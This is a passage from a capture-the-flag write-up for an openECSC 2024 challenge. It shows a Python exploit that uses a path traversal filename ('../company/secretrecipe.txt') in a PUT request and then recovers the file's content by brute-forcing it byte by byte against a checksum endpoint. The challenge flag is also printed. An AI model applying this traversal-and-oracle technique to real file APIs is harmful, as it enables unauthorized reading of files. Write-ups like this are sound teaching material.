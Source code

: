 # Putting it all together

Using all of the knowledge we acquired we can exploit this challenge. We make a PUT request to `/api/v1/files/{random_uid}` with filename `../company/secretrecipe.txt`, and we should get a 500 Internal Server Error, then we bruteforce the file's content through the `/api/v1/{same_random_uid}/checksum?offset=` starting the offset at a reasonably high value and going down to 0.

It works! And we get the flag `openECSC{B377eR_7o_nO7_kNow_7h3_Tru7H_c15eb4b5}`

Here's the exploit:

```python
import requests
import hashlib
import string
import json

def put_file():
    URL = "http://slurm.challs.open.ecsc2024.it/api/v1/files/ef411dab-8b8d-45a1-9de4-a9614d533999" #../company/secretrecipe.txt

    response = requests.put(URL,json={"author":"Valeryum999","filename":"../company/secretrecipe.txt","content":"ez","description":"lmao"})
    print(response)
    print(response.text)

def bruteforce(id):
    ALPHABET = string.ascii_letters + "0123456789_-!{}()?"
    content = ""
    for number in range(50,-1,-1):
        URL = f"http://slurm.challs.open.ecsc2024.it/api/v1/files/{id}/checksum?offset={number}"
        response = requests.get(URL)
        print(response.text)
        response = json.loads(response.text)
        if response['checksum']=="":
            continue
        print(response)
        for letter in ALPHABET:
            content = letter + content
            tent = hashlib.md5(content.encode()).hexdigest()
            print("[+] Try:",content)
            if tent==response['checksum']:
                print(content)
                break
            content = content[1:]

put_file()
bruteforce("ef411dab-8b8d-45a1-9de4-a9614d533999")
```